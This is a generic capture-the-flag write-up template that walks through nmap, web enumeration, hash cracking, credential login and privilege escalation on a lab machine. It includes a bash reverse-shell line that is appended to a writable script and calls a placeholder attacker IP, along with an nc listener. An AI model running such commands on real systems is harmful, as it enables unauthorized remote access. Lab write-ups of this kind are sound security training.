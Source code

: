 # Hacking Challenge Write-Up Template

## Initial Enumeration

The only initial information provided is an IP address. We begin by conducting an Nmap scan to identify open ports and services:

```bash
nmap -sC -sV -v {target_ip}
```

### Scan Results:
```
PORT    STATE SERVICE     VERSION
21/tcp  open  ftp         vsftpd 2.0.8 or later
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.13.74.167
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 1
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_drwxrwxrwx    2 111      113          4096 Jun 04  2020 scripts [NSE: writeable]
22/tcp  open  ssh         OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 8b:ca:21:62:1c:2b:23:fa:6b:c6:1f:a8:13:fe:1c:68 (RSA)
|   256 95:89:a4:12:e2:e6:ab:90:5d:45:19:ff:41:5f:74:ce (ECDSA)
|_  256 e1:2a:96:a4:ea:8f:68:8f:cc:74:b8:f0:28:72:70:cd (ED25519)
139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp open  netbios-ssn Samba smbd 4.7.6-Ubuntu (workgroup: WORKGROUP)
Service Info: Host: ANONYMOUS; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
| smb-os-discovery: 
|   OS: Windows 6.1 (Samba 4.7.6-Ubuntu)
|   Computer name: anonymous
|   NetBIOS computer name: ANONYMOUS\x00
|   Domain name: \x00
|   FQDN: anonymous
|_  System time: 2025-03-19T04:34:37+00:00
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required
| nbstat: NetBIOS name: ANONYMOUS, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)
| Names:
|   ANONYMOUS<00>        Flags: <unique><active>
|   ANONYMOUS<03>        Flags: <unique><active>
|   ANONYMOUS<20>        Flags: <unique><active>
|   \x01\x02__MSBROWSE__\x02<01>  Flags: <group><active>
|   WORKGROUP<00>        Flags: <group><active>
|   WORKGROUP<1d>        Flags: <unique><active>
|_  WORKGROUP<1e>        Flags: <group><active>
| smb2-time: 
|   date: 2025-03-19T04:34:37
|_  start_date: N/A

...
```

## Web Enumeration

Navigating to the webpage hosted on port {PORT}, we analyze the content for useful information. Any potential attack vectors, such as login forms, directory structures, or disclosed credentials, are noted.

Further enumeration may involve:
```bash
gobuster dir -u http://{target_ip} -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
```

or

```bash
nikto -h http://{target_ip}
```

If credentials or hashes are found, they can be cracked using tools like Hashcat or John the Ripper:
```bash
hashcat -m {HASH_TYPE} hash.txt /usr/share/wordlists/rockyou.txt
```

## Access via Discovered Credentials

Using any found credentials, we attempt to log in via discovered services (e.g., SSH, FTP, POP3, IMAP).

```bash
ssh {username}@{target_ip}
```

or

```bash
telnet {target_ip} {PORT}
```

If email services are available, checking emails may reveal further credentials or hints.

## Privilege Escalation

Once access is obtained, we enumerate for privilege escalation vectors:
```bash
sudo -l
```

Checking for misconfigured scripts:
```bash
ls -la /opt/
cat /opt/{script}.sh
```

If a script is writable, modifying it to execute a reverse shell can escalate privileges:
```bash
echo "bash -i >& /dev/tcp/{attacker_ip}/4444 0>&1" >> /opt/{script}.sh
```

Setting up a listener:
```bash
nc -lvnp 4444
```

## Root Access & Capture the Flag

Upon successful privilege escalation, we navigate to the root directory to retrieve the flag:
```bash
cat /root/root.txt
```

---
### Notes:
- Enhance enumeration techniques with LinPEAS or automated tools.
- Document any alternative attack paths.
- Practice safe engagement and ethical hacking principles.


